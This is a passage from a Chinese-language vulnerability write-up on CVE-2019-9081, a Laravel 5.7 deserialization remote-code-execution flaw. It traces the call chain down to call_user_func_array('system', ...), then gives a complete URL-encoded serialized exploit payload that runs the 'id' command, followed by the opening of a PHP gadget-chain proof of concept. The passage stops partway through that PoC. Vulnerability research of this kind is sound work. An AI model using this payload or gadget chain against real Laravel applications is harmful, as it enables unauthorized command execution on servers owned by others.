 `static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

    call_user_func_array('system',array('id'))

此时run函数中\$exitcode值即为命令的执行结果

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId47.png)

    payload：
    http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId48.png)

### POC

    <?php
    //gadgets.php
    namespace Illuminate\Foundation\Testing{
        class PendingCommand{
            protected $command;
            protected $parameters;
            protected $app;
            public $test;

            public function __construct($command, $parameters,$class,$app)
            {
                $this->command = $command;
                $this->parameters = $parameters;
                $this->test=$class;
                $this->app=$app;
            }
        }
    }

    namespace Illuminate\Auth{
        class GenericUser{
            protected $attributes;
            public function __construct(array $attributes){
                $this->attributes = $attributes;
            }
        }
    }
